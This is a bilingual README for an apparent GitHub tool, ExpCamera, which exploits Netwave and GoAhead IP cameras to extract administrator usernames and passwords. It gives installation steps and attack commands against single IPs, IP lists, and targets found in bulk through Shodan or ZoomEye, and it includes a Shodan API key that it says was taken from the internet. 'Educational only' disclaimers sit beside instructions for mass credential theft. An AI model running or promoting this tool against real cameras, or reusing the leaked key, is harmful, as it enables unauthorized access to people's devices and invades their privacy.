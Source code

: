 # ExpCamera
Exploit Netwave and GoAhead IP Camera  
Expcamera is a tool for exploiting vulnerable Netwave and GoAhead IP camera to get the username and password.  
Environment:Linux,Python3  
	
**Attention:this tool is just for educational!**  
**Please comply with local laws and regulations!**  

![exploit](https://github.com/vanpersiexp/expcamera/blob/master/img/demo_1.gif?raw=true)

# Installation
	git clone https://github.com/vanpersiexp/expcamera.git  
	pip3 install -r related.txt  
# Usage
	python3 exploit_camera.py -h  

	usage: exploit_camera.py [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT]  
        	                 [-t TASKS] [-q | -v]   
				 [-i IP | -l INPUTFILE | --shodan SHODAN | --zoomeye ZOOMEYE]

	Exploit IP Camera. Please use it just in educational purpose!  

	optional arguments:  
	  -h, --help     show this help message and exit  
	  -b {1,2},--brand {1,2}  
		         Choose the brand of IP Camera. 1 represents Netwave,2  
	                 represents GoAhead.  
	  -o OUTPUTFILE,--output OUTPUTFILE  
		         Output into path you input.The default path in dir /tmp  
	  -T TIMEOUT,--timeout TIMEOUT  
		         The default timout for netwave is 300s.  
	  -t TASKS,--task TASKS  
	                 Run TASKS number of connects in parallel,default is 10  
	  -c COUNT,--count COUNT
			 The number of ip you want to get from ZoomEye.The maximum is 2000. Default is 100.
	  -q,--quiet     Quiet mode.  
	  -v,--verbose   Show more informations.  
	  -i IP,--ip IP  The camera's ip and port.Example: 192.168.1.100:80  
	  -l INPUTFILE,--list INPUTFILE  
		         The camera's ip:port address file. The file's format  
			 like this 192.168.1.100:80 in a line.  
	  --shodan SHODAN
			 Your Shodan API Key. You can get help from https://www.shodan.io/
	  --zoomeye ZOOMEYE
			 Your ZoomEye API Key. You can get help from https://www.zoomeye.org/api
# Example
1.Victim IP Camera's brand is Netwave.The ip is 192.168.1.100 and port is 80.  

	python3 exploit_camera.py -b 1 -i 192.168.1.100:80 -v  

2.Victim IP Camera's brand is GoAhead.The iplist.txt is given.   
The iplist.txt show as below:  
192.168.1.10:80  
192.168.1.100:81  
192.168.1.200:8080  

	python3 exploit_camera.py -b 2 -l iplist.txt -v

3.Use Shodan API Key to exploit GoAhead.(The API Key is from internet.)

	python3 exploit_camera.py -b 2 -v --shodan lIzylEk4vS3k8TtAR9QreK24tG0b8xBZ
	
# References
http://www.cnvd.org.cn/flaw/show/CNVD-2017-01037  
http://cn.0day.today/exploit/26889  
https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html  
http://www.cert.org.cn/publish/main/9/2017/20170320152751379105282/20170320152751379105282_.html  


# 中文版
Netwave和GoAhead多款摄像头密码泄漏漏洞的利用工具。  
本工具用于针对仍未修补漏洞的摄像头，可以获取摄像头的管理员账户和密码。  
使用环境：Linux,Python3。  

**注意：此工具只用于学习交流目的。**  
**请严格遵守您所在国家的法律法规！**  

# 安装
	git clone https://github.com/vanpersiexp/expcamera.git  
	pip3 install -r related.txt  
# 使用
	python3 exploit_camera.py -h  

	usage: exploit_camera.py [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT]  
        	                 [-t TASKS] [-q | -v]   
				 [-i IP | -l INPUTFILE | --shodan SHODAN | --zoomeye ZOOMEYE]

	Exploit IP Camera. Please use it just in educational purpose!  

	optional arguments:  
	  -h, --help     show this help message and exit.帮助信息   
	  -b {1,2}       Choose the brand of IP Camera. 1 represents Netwave,2  
	                 represents GoAhead.选择摄像头品牌，1代表Netwave，2代表GoAhead。  
	  -o OUTPUTFILE  Output into path you input.The default path in dir /tmp.输出文件路径，默认为/tmp  
	  -T TIMEOUT     The default timout for netwave is 300s.默认超时时间为300s。  
	  -t TASKS       Run TASKS number of connects in parallel,default is 10.多任务同时处理，默认为10。  
	  -c COUNT	 The number of ip you want to get from ZoomEye.The maximum is 2000. Default is 100.
			 你可以从ZoomEye上获取的ip数量。最大值为2000。默认值为100。 
	  -q             Quiet mode.安静模式。  
	  -v             Show more informations.显示更多信息。    
	  -i IP          The camera's ip and port.Example: 192.168.1.100:80.摄像头ip和port形式。例如：192.168.1.100:80。    
	  -l INPUTFILE   The camera's ip:port address file. The file's format like  
	                 this 192.168.1.100:80 in a line.摄像头ip和port文件格式。每一行都以192.168.1.100:80的形式。 
	  --shodan SHODAN
			 Your Shodan API Key. You can get help from https://www.shodan.io/
			 你Shodan的API Key。你可以从https://www.shodan.io/获取帮助。
	  --zoomeye ZOOMEYE
			 Your ZoomEye API Key. You can get help from https://www.zoomeye.org/api
			 你ZoomEye的API Key。你可以从https://www.zoomeye.org/api获取帮助。

 
# 例子
1.摄像头品牌为Netwave。IP地址为192.168.1.100, port端口为80。  

	python3 exploit_camera.py -b 1 -i 192.168.1.100:80 -v  

2.摄像头品牌为GoAhead。IP地址文件iplist.txt如下所示：  
192.168.1.10:80  
192.168.1.100:81  
192.168.1.200:8080  

	python3 exploit_camera.py -b 2 -l iplist.txt -v
	
3.使用Shodan的API Key进行攻击GoAhead品牌摄像头。

	python3 exploit_camera.py -b 2 -v --shodan lIzylEk4vS3k8TtAR9QreK24tG0b8xBZ

# 参考
http://www.cnvd.org.cn/flaw/show/CNVD-2017-01037  
http://cn.0day.today/exploit/26889  
https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html  
http://www.cert.org.cn/publish/main/9/2017/20170320152751379105282/20170320152751379105282_.html  


